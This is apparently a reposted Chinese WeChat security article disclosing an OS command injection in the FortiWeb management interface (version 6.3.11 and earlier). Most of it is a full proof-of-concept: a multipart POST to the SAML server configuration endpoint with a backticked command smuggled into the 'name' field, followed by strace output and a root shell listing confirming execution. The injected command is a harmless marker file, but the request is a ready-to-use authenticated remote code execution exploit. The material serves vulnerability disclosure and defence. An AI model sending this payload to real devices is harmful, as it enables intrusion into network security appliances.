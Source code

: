 ##  0day Fortinet FortiWeb OS 命令注入

[ 黑白之道 ](javascript:void\(0\);)

**黑白之道** ![]()

微信号 i77169

功能介绍 我们是网络世界的启明星，安全之路的垫脚石。

____

__

收录于话题

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075153.png)

> 文章来源：Khan安全攻防实验室

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075154.png)

  

![]()

  

        FortiWeb 管理界面（版本 6.3.11 及更早版本）中的操作系统命令注入漏洞可允许远程、经过身份验证的攻击者通过 SAML 服务器配置页面在系统上执行任意命令。

  

POC：  

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /api/v2.0/user/remoteserver.saml HTTP/1.1Host: [redacted]Cookie: [redacted]User-Agent: [redacted]Accept: application/json, text/plain, */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflateReferer: https://[redacted]/root/user/remote-user/saml-user/X-Csrftoken: 814940160Content-Type: multipart/form-data; boundary=---------------------------94351131111899571381631694412Content-Length: 3068Origin: https://[redacted]Dnt: 1Te: trailersConnection: close-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="q_type"1-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="name"`touch /tmp/vulnerable`-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="entityID"test-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="service-path"/saml.sso-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="session-lifetime"8-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="session-timeout"30-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="sso-bind"post-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="sso-bind_val"1-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="sso-path"/SAML2/POST-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="slo-bind"post-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="slo-bind_val"1-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="slo-path"/SLO/POST-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="flag"0-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="enforce-signing"disable-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="enforce-signing_val"0-----------------------------94351131111899571381631694412Content-Disposition: form-data; name="metafile"; filename="test.xml"Content-Type: text/xml<?xml version="1.0"?><md:EntityDescriptor xmlns:md="urn:oasis:names:tc:SAML:2.0:metadata" validUntil="2021-06-12T16:54:31Z" cacheDuration="PT1623948871S" entityID="test"><md:IDPSSODescriptor WantAuthnRequestsSigned="false" protocolSupportEnumeration="urn:oasis:names:tc:SAML:2.0:protocol"><md:KeyDescriptor use="signing"><ds:KeyInfo xmlns:ds="http://www.w3.org/2000/09/xmldsig#"><ds:X509Data><ds:X509Certificate>test</ds:X509Certificate></ds:X509Data></ds:KeyInfo></md:KeyDescriptor><md:KeyDescriptor use="encryption"><ds:KeyInfo xmlns:ds="http://www.w3.org/2000/09/xmldsig#"><ds:X509Data><ds:X509Certificate>test</ds:X509Certificate></ds:X509Data></ds:KeyInfo></md:KeyDescriptor><md:NameIDFormat>urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified</md:NameIDFormat><md:SingleSignOnService Binding="urn:oasis:names:tc:SAML:2.0:bindings:HTTP-Redirect" Location="test"/></md:IDPSSODescriptor></md:EntityDescriptor>-----------------------------94351131111899571381631694412--HTTP/1.1 500 Internal Server ErrorDate: Thu, 10 Jun 2021 11:59:45 GMTCache-Control: no-cache, no-store, must-revalidatePragma: no-cacheSet-Cookie: [redacted]X-Frame-Options: SAMEORIGINX-XSS-Protection: 1; mode=blockContent-Security-Policy: frame-ancestors 'self'X-Content-Type-Options: nosniffContent-Length: 20Strict-Transport-Security: max-age=63072000Connection: closeContent-Type: application/json{"errcode": "-651"}

  

“touch”命令连接在 mkdir shell 命令中：

  

  *   *   *   * 

    
    
    [pid 12867] execve("/migadmin/cgi-bin/fwbcgi", ["/migadmin/cgi-bin/fwbcgi"], 0x55bb0395bf00 /* 42 vars */) = 0[pid 13934] execve("/bin/sh", ["sh", "-c", "mkdir /data/etc/saml/shibboleth/service_providers/`touch /tmp/vulnerable`"], 0x7fff56b1c608 /* 42 vars */) = 0[pid 13935] execve("/bin/touch", ["touch", "/tmp/vulnerable"], 0x55774aa30bf8 /* 44 vars */) = 0[pid 13936] execve("/bin/mkdir", ["mkdir", "/data/etc/saml/shibboleth/service_providers/"], 0x55774aa30be8 /* 44 vars */) = 0

  

在 FortiWeb 设备的本地命令行上看到“touch”命令的结果：

  

  *   *   * 

    
    
    /# ls -l /tmp/vulnerable-rw-r--r--    1 root     0                0 Jun 10 11:59 /tmp/vulnerable/#

侵权请私聊公众号删文

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075155.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075156.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823075157.png)

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

0day Fortinet FortiWeb OS 命令注入

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

